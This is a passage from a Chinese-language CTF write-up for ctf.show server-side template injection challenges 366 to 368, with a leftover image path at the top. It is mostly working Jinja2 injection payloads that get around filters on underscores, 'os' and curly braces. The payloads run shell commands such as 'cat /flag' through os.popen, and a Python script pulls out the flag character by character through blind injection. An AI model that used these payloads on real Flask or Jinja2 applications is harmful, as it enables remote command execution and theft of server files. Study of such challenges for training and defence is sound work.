 在之前的基础上过滤了下划线，绕过用request或者attr都可以

```jinja2
/?name={{(lipsum|attr(request.cookies.a)).os.popen(request.cookies.c).read()}}

a=__globals__;c=cat /flag
```

## 367_过滤OS

把os当做参数传入即可，这里我用cookie会爆500，很奇怪，直接改用values：

```jinja2
/?a=__globals__&b=os&c=cat /flag&name={{(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()}}
```

## 368_过滤双花括号

```jinja2
/?a=__globals__&b=os&c=cat /flag&name={% print(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read() %}
```

看了一下feng师傅的wp，还可以盲注，学到了：
原理是`open('/flag').read()`会将整个文件回显，而`open('/flag').read(i)`则是返回读出的i个字符，再利用判断进行匹配即可：

```python
import requests

url="http://0c3d170c-43cb-4ee2-a344-476e4311e42f.challenge.ctf.show:8080/"
flag=""
for i in range(46):
    for j in "abcdefghijklmnopqrstuvwxyz0123456789-{}":
        params={
            'name':"{{% set a=(lipsum|attr(request.values.a)).get(request.values.b).open(request.values.c).read({}) %}}{{% if a==request.values.d %}}hhh{{% endif %}}".format(i),
            'a':'__globals__',
            'b':'__builtins__',
            'c':'/flag',
            'd':f'{flag+j}'
        }
        r=requests.get(url=url,params=params)
        if "hhh" in r.text:
            flag+=j
            print(flag)
            if j=="}":
                exit()
            break


```

## 369_过滤request
